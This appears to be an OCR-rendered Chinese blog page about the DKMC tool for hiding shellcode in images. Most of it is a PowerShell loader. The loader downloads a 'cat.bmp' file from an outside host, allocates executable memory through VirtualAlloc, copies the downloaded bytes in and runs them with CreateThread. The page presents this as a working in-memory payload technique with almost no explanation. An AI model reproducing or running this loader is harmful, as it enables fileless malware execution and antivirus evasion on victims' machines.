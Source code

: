 ![](/img/hack/DKMC/1505274026521.png)


## Powershell payload

生成powershell的payload，然后下载并在内存中运行。

使用脚本下载图片取决于System.Net.WebClient，然后分配虚拟空间、创造线程执行shellcode

```
[Byte[]]$var_code = (New-Object
System.Net.WebClient).DownloadData("http://image.com/cat.bmp")
$var_buffer =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get
_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr],
[UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero,
$var_code.Length,0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer,
$var_code.length)
$var_hthread =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get
_proc_address kernel32.dll CreateThread), (func_get_delegate_type @([IntPtr],
[UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr])
([IntPtr]))).Invoke([IntPtr]::Zero,0,$var_buffer,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get
_proc_address kernel32.dll WaitForSingleObject), (func_get_delegate_type
@([IntPtr], [Int32]))).Invoke($var_hthread,0xffffffff) | Out-Null
```

